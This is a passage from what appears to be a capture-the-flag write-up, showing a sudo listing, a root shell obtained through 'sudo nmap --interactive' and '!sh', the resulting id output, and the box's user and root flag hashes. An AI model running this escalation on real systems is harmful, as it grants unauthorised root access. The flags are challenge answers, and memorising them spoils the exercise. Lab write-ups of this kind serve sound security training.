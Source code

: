 ```bash
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

# Trophy

>[!quote]
>Never underestimate the determination of a kid who is time-rich and cash-poor.
>
>\- Cory Doctorow

>[!success]
>**User.txt**
>4b4455d3b590c2f6505a8aa3ebc460a9

>[!success]
>**Root.txt**
>97c50cb86a99c086e8bec4720e0c423d

